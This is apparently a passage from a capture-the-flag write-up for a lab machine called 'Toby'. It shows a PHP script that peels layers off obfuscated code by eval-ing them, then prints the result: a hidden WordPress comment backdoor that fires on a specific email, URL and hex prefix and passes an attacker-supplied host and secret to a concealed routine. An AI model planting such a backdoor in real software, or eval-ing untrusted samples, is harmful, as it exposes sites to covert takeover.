 ![alt ffuf](/assets/img/toby/obfuscate-code.png)

Wow there's a php obfuscate code!! very interesting :D

so i create this script for deobfuscate php script

```php
<?php


$data = file_get_contents("ob.php");
$stop = false;
$num = 0;

while(!$stop) {
	$data = str_replace("eval", "print", $data);
	
	ob_start();
	eval($data);
	$data = ob_get_contents();
	ob_end_clean();

	// sleep(1);
	if($data != ""){
		file_put_contents("result/$num", $data);
		$num++;	
	}else{
		$stop = true;
	}
	
}?>
```
Result

```bash
$ cat result/79

if($comment_author_email=="help@toby.htb"&&$comment_author_url=="http://test.toby.htb/"&&substr($comment_content,0,8)=="746f6279"){
	$a=substr($comment_content,8);
	$host=explode(":",$a)[0];$sec=explode(":",$a)[1];
	$d="/usr/bin/wordpress_comment_validate";
	include $d;wp_validate_4034a3($host,$sec);return new WP_Error('unspecified error');
}
```
